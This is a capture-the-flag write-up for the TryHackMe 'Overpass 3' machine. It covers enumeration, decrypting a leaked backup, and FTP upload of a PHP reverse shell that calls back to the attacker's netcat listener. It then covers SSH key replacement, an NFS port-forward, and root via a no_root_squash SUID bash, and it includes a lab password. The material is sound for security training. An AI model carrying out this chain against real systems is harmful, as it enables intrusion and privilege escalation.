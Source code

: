 ```yaml
---
layout: default
title : Overpass 3 - Web Hosting - THM
---
```


![Screenshot_20220324_031714](https://user-images.githubusercontent.com/24994796/160209915-2f41711f-71af-4a91-9eae-60237a89aeef.png)

# Less chatting more hacking 🤤
Let's jump right into it 

Here we are working with couple of broke programmers who built a web hosting ......

Upon firing up the machine we get an IP address

First thing for every good security operative is enumeration
so we run an nmap scan to know which ports/services are up and running

![Screenshot_20220326_003154](https://user-images.githubusercontent.com/24994796/160210613-a77cc466-9717-4ee1-bb5e-11ba76dfcfa2.png)
After the scan we notice 3 ports opened and a bunch of vulnerebilities 
- Port 21,22 and 80 
- FTP,SSH and HTTP respecfully
- also notice on line 27,28 we already ran an http-enum and found two directories 
- lets keep those in mind for next time
Let's head on to our browser, load the website 
![Screenshot_20220326_003036](https://user-images.githubusercontent.com/24994796/160211351-b5006e30-7eb5-4b49-a362-f174c3c8d1ac.png)
We see the index page doesn't really give us much but we can clearly see staffs and their roles
Nothing major there except from an about page and Downloads
So heading on to the /backups directory we got from our scan we notice see a backup zip file 
We download it, extract it and were greeted with two files a gpg and a private pgp key file
![Screenshot_20220326_001459](https://user-images.githubusercontent.com/24994796/160211822-12de9c93-f934-4b7e-9486-c78fed62d191.png)
I guess we'll be learning a bit about pgp and gpg xD 
# Proceed to both this links if you want to learn about how to import keys and change a pgp passphrase

https://makandracards.com/makandra-orga/37763-gpg-extract-private-key-and-import-on-different-machine
https://blog.chapagain.com.np/gpg-how-to-change-edit-private-key-passphrase/


First change directory to one the contains your backup extracted files 
make sure you have gpg installed on yyour machine 
then we get into it
In your terminal type this 
- sudo apt-get install gpg 
- gpg --list-keys 
notice nothing is returned
- gpg --list-secret-keys 
Now let's proceed to importing the keys 
- gpg --import private.key
- run the gpg --list-secret-keys 
Notice we finally get some keys

![Screenshot_20220326_004741](https://user-images.githubusercontent.com/24994796/160212412-a94c2a7a-c8ed-46e9-9847-06a1c7356563.png)

Now changing its passphase
- gpg --edit-key your-key-ID
Your Key will be in hexadecimals 
- gpg> passwd
You'll be asked to input your new password twice 
Let's just type overpass
- gpg> save
Save it

# Decrypting the gpg file
In order to decrypt an encrypted file on Linux, you have to use the “gpg” command with the “-d” option for “decrypt” and specify the “. gpg” file that you want to decrypt.
Again, you will be probably be prompted with a window (or directly in the terminal) for the passphrase.
- gpg -d CustomerDetails.xlsx.gpg 
- input your passphrase
Now head back to the foleder that contains the backup files, you'll notice a new file, open it

![Screenshot_20220326_011324](https://user-images.githubusercontent.com/24994796/160213471-14e62faf-ce34-4e36-8212-d6af23650147.png)

![Screenshot_20220326_011913](https://user-images.githubusercontent.com/24994796/160213859-44e83b4d-70ce-4198-983d-2a7b79a8ddd0.png)


We have login credentials where to use it ?
Remember in our scan we had FTP&SSH being open 
Upon trying the SSH with all login details we didn't have any successfull ssh login
Let's try the FTP
make sure you have ftp installed on your pc 
- sudo apt-get install ftp
- ftp "machine IP"
- it prompts us to give a user 
- and a password
Just have fun trying all the users and passwords 

After logging in, we run ls to list directories
we see the backups directory and some other things 
It seems that's web directory
lets upload our web rev shell (/usr/share/webshells/php/php-reverse-shell.php) or any php of your choice
change the ip and port to port of our preferance and IP to our attacker machine's

![Screenshot_20220324_152536](https://user-images.githubusercontent.com/24994796/160214017-3d0abbd9-e0c1-48de-9286-2286a46c8ead.png)

Set up your listner 
- rlwrap nc -lvnp PORT
Head to the website and chane the directory to IP/webshell name 

![Screenshot_20220324_153103](https://user-images.githubusercontent.com/24994796/160214407-451de196-ff68-48cd-b2e9-161638230135.png)

We should caught a shell 


So yes from ![Screenshot_20220324_152557(2)](https://user-images.githubusercontent.com/24994796/160214836-b0e9a821-ee1b-473b-a718-1b56a9230376.png)

That's our initial shell, 
make the shell a stable one (* that'll be your little task, use bash to stabilize the shell, but rlwrap is a pretty stable shell)
from THM hint the webflag is in the apache user path
- cat /etc/passwd
![Screenshot_20220324_220936](https://user-images.githubusercontent.com/24994796/160214960-fb08e394-53c0-4c01-bb7e-9a99f9b0be17.png)
- cd /usr/share/httpd (apache path)
- ls
- cat your web flag

we have a user paradox who we have his password so let's head to his path
- su paradox
- ShibesAreGreat123 (password)

so let's try getting the user flag now, Paradox lacks the right to

run linpeas.sh or you can go through a series of manual exploitation

pay attention to NFS 
we check /etc/exports 
and see that the user james has a share to his path and it has the root_no_squat option
on our pc try mounting this share 
- showmount -e "MACHINE IP"
- we noticed some sort of Firewall is blocking our share 
- so let's try ssh port forwarding nfs share trick

but before we do that let's get a user we can successfully ssh to

we noticed we couldn't ssh to paradox even tho we had his password 
lets try replacing his authorized_keys with ours 
- first get your ssh key open another terminal tab
- cd ~/.ssh 
- ls 
- cat id_rsa.pub
now we have that let's go back to our shell tab and change paradox authourized keys
![Screenshot_20220324_152701(2)](https://user-images.githubusercontent.com/24994796/160216007-e0214d80-1374-4124-a0db-38c6696efd65.png)

- after that head back to your tab 
- time for the port forwarding trick, the link below explains it quite well, you can head there later 
https://gist.github.com/proudlygeek/5721498 
We run the following
Setup ssh tunnel
- ssh -fNv -L 3049:localhost:2049 paradox@MACHINE-IP 
![Screenshot_20220324_152739](https://user-images.githubusercontent.com/24994796/160216153-57f72cd7-65f9-4a85-9447-21419fe73dbe.png)
Mount the share
- mount -t nfs -o port=3049 localhost:/ /tmp/nfs
![Screenshot_20220324_152808](https://user-images.githubusercontent.com/24994796/160216187-043eef85-12fd-4457-bef4-2f19c26820fb.png)

so yh cd to the folder me mounted it to /tmp/nfs
- ls -la 
lists all files and folders
notice there's a .ssh folder, cd to it and cat the id_rsa.pub file 
so just ssh with it since we don't know the login
- ssh -i id_rsa.pub james@MACHINE-IP
![Screenshot_20220324_152851](https://user-images.githubusercontent.com/24994796/160216662-34572d73-5dae-457d-882a-8585bd8504ec.png)

![Screenshot_20220324_152959](https://user-images.githubusercontent.com/24994796/160216688-8e90ffe7-a381-48f0-802d-28b6a96e6bcb.png)
WE'RE IN 😎
cat out the user flag 

Now time for the privilege escalation path
pay good attention to this, things get tricky here
actually we use hacktricks trick xD
https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe

Head back to our /tmp/nfs folder 
- cd /tmp/nfs
- cp /bin/bash . (note my personal experience was tht after a minute the Terminal was a hung there so i closed it and opend another and went back the /tmp/nfs folder again, listing files a bash file was there)
- chmod +s bash

Now head back to the james's ssh and the shared folder path

./bash -p 

gives drops us a root shell
![Screenshot_20220324_153023](https://user-images.githubusercontent.com/24994796/160217074-d1353f2d-cc78-473b-a756-6d065749cc9b.png)

and BOOM root access 🥸 🤯

so the last task of finding root flag is up to you
nah just kidding 
- cat /root/root.flag
and we should get our root flag

That's it for Overpass 3

Hit me up on Twitter (https://twitter.com/abdulmalik_ttg) if you run into any issues 
Greetings from [SonOfABot]



<br> <br>
[Back To Home](../../index.md)
<br>









